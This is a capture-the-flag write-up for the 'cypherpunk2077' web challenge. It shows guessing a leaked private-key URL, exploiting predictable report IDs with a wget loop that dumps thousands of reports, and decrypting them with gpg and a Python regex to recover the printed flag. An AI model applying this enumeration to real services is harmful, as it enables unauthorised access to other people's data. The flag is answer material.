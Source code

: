 # cypherpunk2077
Category: web

Points: 392

Solved by: hdesk, drw0if

## Problem

If you have found any bugs in latest AAA projects, please report them using this pretty good service.

[Link](http://tasks.kksctf.ru:30030/)
## Writeup

Starting the navigation we are greeted with two links:

![home](images/home.png)

[Report](http://tasks.kksctf.ru:30030/report)

[Keys](http://tasks.kksctf.ru:30030/keys)

Let's start with the second one: the page shows up only one entry:


[Public key](http://tasks.kksctf.ru:30030/keys/public)

whose content can be found in the [public](public) file. Guessing we changed the url to *private* and we found the private key too. The content can be found in the [private](private) file.

Let's move to the report funcionality. There is a textbox and a name. Let's try to sign a message with the public key and submit it via the form:

```bash
gpg --import private # to import the private key

echo 'test-string' > in.txt

gpg -u trust -a -e in.txt # with report as username

cat in.txt.asc
-----BEGIN PGP MESSAGE-----

hQGMAyDF2996B8eFAQv7B6DRQqwoWUA5I/QYsG/eIyt0ezFVIMXsvwc8B/LjqjaZ
DXrQnDZrRRLWoVPqlWvlVFkQCFPgxhHcwCKQEdhalwKTBwaJHTG9cuNo/RpAPfRP
ejxBJIDvRvmvjhgd9o2HiiW/8qlh/0U+y3lomiPDEsnzu52fXqkztJPSDHqS4v+E
RSGK8ZPDdSXMwo6Fgsp92RkZQGlhBAKZ6Yj5BElQaZwrc0T75RbvgKvsofhZ1ldw
taT2bFZezJc6EocGXfrxZQCK3JhNk/OHcl+qAgCPhcx+rAD41f4QDXeCBltDtMaF
7zqfjYZ09r04uV8PZLsUvsjlOPuXwYG8rtJrnPJ1v4BOj5rmZqTM5f4+uP1mPfwB
GnckG7NTHNpr5wmLaP3cy/eMax7x0dHkDRehOb0JUEQ7vufSEfbscu4BCL+2CLP+
lFqpJbb2ZQeblE+hxrQWTJFugrQ3h3aylN4GGctsyJR1L2YJ/0A6kQ8co3e0p5zt
Ce+MsqRGcEJOmEe1BEVK0k0B49Q/V8OvrhLkbxe8Qd/ScAe4x+m9ZRrnwHi3XGJE
0wFliGB20dttBjdFTAeH8iCgozP1LoYw7ayEPn4ufC5pAv5iCWSKejgdRzj7ag==
=79Cd
-----END PGP MESSAGE-----
```

Submitting this text we are moved to `http://tasks.kksctf.ru:30030/reports/3402`

![upload](images/upload.png)

Let's try to change the number:
`http://tasks.kksctf.ru:30030/reports/1`

![first report](images/first_report.png)

Bingo we have different text. Let's dump the entire report database.

```bash
mkdir downloaded
for i in {1..3500};do
    wget http://tasks.kksctf.ru:30030/reports/$i -P downloaded
done
```

Let's extract the message with some regex:
```python
import sys
import re
import os

for l in os.listdir('downloaded'):
    with open(f'downloaded/{l}', 'r') as f:
        a = f.read()

    regex = r'(-----BEGIN PGP MESSAGE-----(.|\n)*-----END PGP MESSAGE-----)'
    result = re.findall(regex, a)

    with open(f'stripped/{l}', 'w') as f:
        f.write(result[0])

    print(l)
```

Let's decrypt them with the gpg tool itself:

```bash
for i in `ls extracted`; do
    gpg --decrypt extracted/$i 2> /dev/null 1>> out/dump
    echo '' >> out/dump
    echo $i
done
```

In the end checking the dump file we can easily locate the **real** flag:
```
kks{in_2077_what_makes_someon3_a_ctf_player7_getting_flag}
```